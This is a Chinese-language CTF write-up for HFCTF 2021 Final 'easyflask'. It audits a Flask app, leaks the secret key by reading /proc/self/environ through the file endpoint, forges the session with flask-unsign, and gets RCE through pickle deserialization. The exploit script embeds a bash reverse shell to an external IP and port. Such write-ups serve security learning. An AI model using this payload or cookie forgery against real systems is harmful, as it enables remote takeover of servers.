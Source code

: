 # \[HFCTF 2021 Final]easyflask

## \[HFCTF 2021 Final]easyflask

## 考点

* Flask代码审计
* pickle反序列化

## wp

提示`/file?file=index.js`访问继续提示`Source at /app/source`，访问`/file?file=/app/source`得到源码

```python
#!/usr/bin/python3.6
import os
import pickle

from base64 import b64decode
from flask import Flask, request, render_template, session

app = Flask(__name__)
app.config["SECRET_KEY"] = "*******"

User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
})


@app.route('/', methods=('GET',))
def index_handler():
    if not session.get('u'):
        u = pickle.dumps(User())
        session['u'] = u
    return "/file?file=index.js"


@app.route('/file', methods=('GET',))
def file_handler():
    path = request.args.get('file')
    path = os.path.join('static', path)
    if not os.path.exists(path) or os.path.isdir(path) \
            or '.py' in path or '.sh' in path or '..' in path or "flag" in path:
        return 'disallowed'

    with open(path, 'r') as fp:
        content = fp.read()
    return content


@app.route('/admin', methods=('GET',))
def admin_handler():
    try:
        u = session.get('u')
        if isinstance(u, dict):
            u = b64decode(u.get('b'))
        u = pickle.loads(u)
    except Exception:
        return 'uhh?'

    if u.is_admin == 1:
        return 'welcome, admin'
    else:
        return 'who are you?'


if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=False)
```

首先使用`type()`生成新的类型对象`User`，有2个属性`uname`和`is_admin`，1个方法`__repr__()`把对象当做字符串使用时调用。python中type()有2个用法，只有第一个参数则返回对象的类型，三个参数则会新建一个类。

```python
User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
})
```

后面的操作都和session有关，看一下session内容

```
flask-unsign.exe --decode --cookie eyJ1Ijp7IiBiIjoiZ0FTVkdBQUFBQUFBQUFDTUNGOWZiV0ZwYmw5ZmxJd0VWWE5sY3BTVGxDbUJsQzQ9In19.YqmCCQ.1BUh4xim9Ych3BP-xrO3zkglSiE
{'u': b'\x80\x04\x95\x18\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x04User\x94\x93\x94)\x81\x94.'}
```

进行反序列化后是一个User对象

```python
import pickle
User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
})

u = b'\x80\x04\x95\x18\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x04User\x94\x93\x94)\x81\x94.'

u = pickle.loads(u)
print(type(u))
print(u.__dir__())
# <class '__main__.User'>
# ['uname', 'is_admin', '__repr__', '__module__', '__dict__', '__weakref__', '__doc__', '__hash__', '__str__', '__getattribute__', '__setattr__', '__delattr__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__init__', '__new__', '__reduce_ex__', '__reduce__', '__subclasshook__', '__init_subclass__', '__format__', '__sizeof__', '__dir__', '__class__']
```

接着看源码

访问`/`会生成根据`User`类生成session，访问`/file?file=`会读取相应文件

访问`/file?file=/proc/self/environ`，得到`secret_key=glzjin22948575858jfjfjufirijidjitg3uiiuuh`

之后可以伪造session了

访问`/admin`会对session进行反序列化，结合前面的可以控制session，反序列化RCE

exp

```python
import pickle
from base64 import b64encode
import os

User = type('User', (object,), {
    'uname': 'tyskill',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
    '__reduce__': lambda o: (os.system, ("bash -c 'bash -i >& /dev/tcp/81.68.218.54/55555 0>&1'",))
})
u = pickle.dumps(User())
print(b64encode(u).decode())
# gANjcG9zaXgKc3lzdGVtCnEAWDUAAABiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzgxLjY4LjIxOC41NC81NTU1NSAwPiYxJ3EBhXECUnEDLg==
```

再重新加密

```
flask-unsign.exe --sign --cookie "{'u':{'b':'gANjcG9zaXgKc3lzdGVtCnEAWDUAAABiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGN wLzgxLjY4LjIxOC41NC81NTU1NSAwPiYxJ3EBhXECUnEDLg=='}}" --secret "glzjin22948575858jfjfjufirijidjitg3uiiuuh"
eyJ1Ijp7ImIiOiJnQU5qY0c5emFYZ0tjM2x6ZEdWdENuRUFXRFVBQUFCaVlYTm9JQzFqSUNkaVlYTm9JQzFwSUQ0bUlDOWtaWFl2ZEdOd0x6Z3hMalk0TGpJeE9DNDFOQzgxTlRVMU5TQXdQaVl4SjNFQmhYRUNVbkVETGc9PSJ9fQ.YqmbLg.rCX3wzAkC4R43A36IVULOtUeAoo
```

![](<../../.gitbook/assets/image (25).png>)
